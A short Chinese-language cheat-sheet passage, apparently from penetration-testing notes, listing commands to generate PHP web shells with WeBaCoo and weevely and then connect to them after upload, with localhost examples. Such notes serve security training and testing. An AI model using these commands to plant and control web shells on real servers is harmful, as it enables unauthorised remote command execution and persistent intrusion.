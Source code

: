 WeBaCoo生成Webshell：
```
webacoo -g -o [webshell名]
如：
webacoo -g -o a.php
```

上传Webshell后连接Webshell：
```
webacoo -t -u [Webshell地址]
如：
webacoo -t -u http://127.0.0.1/a.php
```

#### 2. weevely工具

生成Webshell：
```
weevely generate [密码] [路径] [文件名]
如：
weevely generate cmd ./ a.php
```

上传后连接Webshell：
```
weevely [shell文件地址] [密码]
如：
weevely http://127.0.0.1/a.php cmd
```